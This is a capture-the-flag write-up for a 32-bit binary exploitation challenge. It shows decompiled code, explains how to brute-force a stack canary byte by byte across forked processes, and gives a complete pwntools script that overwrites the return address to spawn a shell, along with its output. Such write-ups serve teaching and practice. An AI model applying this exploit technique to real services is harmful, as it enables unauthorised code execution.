 # 8^256 (exploitation, 300 points)

> Hello, welcome to my little forking binary I made it special just for you I hope you don't disappoint me.

## Files:

- canary
```
❯ file canary
canary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af7281a274f54c7eb47e70ca66e6fd54024ebdb8, not stripped
```

## Solution:

We have a 32-bit x86 executable: to Ghidra we go!

```c
void main(void)

{
  int in_GS_OFFSET;
  int local_1c;
  __pid_t local_18;
  undefined4 local_14;
  undefined *puStack_c;
  
  puStack_c = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  puts("Hello, welcome to my little forking binary");
  puts("I made it special just for you");
  puts("I hope you don\'t disappoint me.");
  while( true ) {
    local_18 = fork();
    if (local_18 == 0) break;
    waitpid(local_18,&local_1c,0);
  }
  puts("\nForked proccess...");
  handle();
  puts("... and exited successfully!");
                    /* WARNING: Subroutine does not return */
  _exit(0);
}

void handle(void)

{
  ssize_t sVar1;
  size_t __nbytes;
  int ch;
  int in_GS_OFFSET;
  char buffer [128];
  int canary;
  
  canary = *(int *)(in_GS_OFFSET + 0x14);
  puts("I am the forked process!");
  puts("How much data would you like to read?");
  sVar1 = read(0,buffer,0x7f);
  buffer[sVar1 + 1] = '\0';
  __nbytes = atoi(buffer);
  memset(buffer,0,0x80);
  printf("Give me %d bytes of data\n",__nbytes);
  read(0,buffer,__nbytes);
  do {
    ch = getchar();
    if (ch == 10) break;
  } while (ch != -1);
  puts("Exiting...");
  if (canary != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We see that `main` just forks the process over and over, and `handle` is the actual logic. We'll come back to the fork soon.

Let's take a look at `handle`. It asks us for how much data we want to read, and then allows us to read in an arbitrary amounts of data.

Surely nothing can go wrong with that, ri-

![aaaaaaaaaaaaaaaa](../assets/canary/aaaaaaaa.gif)

-ght?

```
Hello, welcome to my little forking binary
I made it special just for you
I hope you don't disappoint me.

Forked proccess...
I am the forked process!
How much data would you like to read?
180
Give me 180 bytes of data
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Exiting...
*** stack smashing detected ***: terminated

Forked proccess...
I am the forked process!
How much data would you like to read?
```

Right... stack canaries.

This is where the forked process comes into play. Since we fork, we do not generate a new canary, and thus we can brute force the canary!

Since we're able to write an arbitrary amount of memory, we can try writing one byte at a time. If we have the right canary value, the program will just exit normally. Once we know the canary, we can redirect function to the `give_shell` function that we found in Ghidra:

```c
void give_shell(void)

{
  system("/bin/sh");
  return;
}
```

Our solve script is thus:

```python

import time

from pwn import *

win = 0x0804861b

# con = process('canary')
con = remote('0.cloud.chals.io', 27190)

buffer = 0xffffd9bc
canary = 0xffffda3c
ebp = 0xffffda48

correct_canary = b'\x00'

for b in range(3):
    for i in range(256):
        print(i)
        payload = b'a' * (canary - buffer) + correct_canary + bytes([i]) 
        l = len(payload)
        res = con.recvuntil(b'How much data would you like to read?', timeout=1)
        con.sendline(str(l).encode())
        con.recvuntil(b'bytes of data')
        con.sendline(payload)
        res = con.recvuntil(b'Forked proccess...')
        if b'and exited successfully!' in res:
            correct_canary += bytes([i])
            print(correct_canary.hex())
            break

payload = b'a' * (canary - buffer) + correct_canary + b'a' * 8 + b'FPFP' + p32(win)
l = len(payload)
res = con.recvuntil(b'How much data would you like to read?', timeout=1)
con.sendline(str(l).encode())
con.recvuntil(b'bytes of data')
con.sendline(payload)
con.interactive()
```

But wait, aren't there four bytes to the canary? Why are you only brute forcing 3?

There's a fun property of Linux stack canaries: their least significant byte is always `0x00`. This is to prevent various C string-based attacks, since they will stop at the null byte. However, we can use this to cut down our search space by 25%.

After running the script for a bit, we can find all the bytes of the canary, then send the right canary to make it seem as if nothing ever happened! Except, we've left a bit of a present in the return address.

```
❯ python3 solve.py
[+] Opening connection to 0.cloud.chals.io on port 27190: Done
0
...
221
00dd
0
...
135
00dd87
0
..
64
00dd8740
[*] Switching to interactive mode

Exiting...
$ $ ls
canary    canary.c  flag.txt
$ $ cat flag.txt
flag{but_is_it_cookie_or_canary_though}
```
